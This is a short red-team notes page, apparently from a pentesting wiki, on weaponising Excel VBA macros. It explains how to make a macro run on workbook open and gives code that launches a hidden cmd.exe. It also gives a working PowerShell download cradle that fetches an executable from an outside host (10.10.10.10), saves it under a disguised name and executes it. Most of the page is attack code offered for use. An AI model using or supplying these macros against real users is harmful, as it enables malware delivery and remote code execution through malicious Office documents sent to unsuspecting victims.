 # Excel

To create a new macro, call it "mymacro" or any arbitrary name. When the VB editor opens, select "ThisWorkbook" under the excel objects section in the project tree view. Make sure "Workbook" is selected in the first dropdown list and "Open" in the second. Then paste in the code and save and exit. This will run once the "Enable" macros button has been clicked by the user.

## VBA Application Launcher

We can launch applications outside of VBA with the "Shell" function. The function takes two arguments, first, the application to launch, and second, the "WindowStyle" of the launched application. We can use the "vbHide" or "0" value to launch a hidden application. Note, the application may not open in a window, however, it is visible as a child process with any process viewer/explorer utility such as procexp/64 from sysinternals.

```vba
Private Sub Workbook_Open()
    Dim str As String
    str = "cmd.exe"
    Shell str, 0
End Sub
```

## VBA PowerShell Download Cradle and Code Execution

{% hint style="info" %}
VBA in excel has a "Wait" function, however, for some reason I was unable to get it to work. Example below:

`Application.Wait (Now + TimeValue("0:00:10"))`

`Note that this will suspend all other events until the delay period is complete.`
{% endhint %}

```vba
Private Sub Workbook_Open()
    macro1
End Sub

Sub macro1()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/winout64.exe', 'C:\Users\awhole\Desktop\winsysx64.exe')"
    Shell str, 1
    Wait (10)
    Dim RetVal
    RetVal = Shell("C:\Users\awhole\Desktop\winsysx64.exe", 1)
End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```





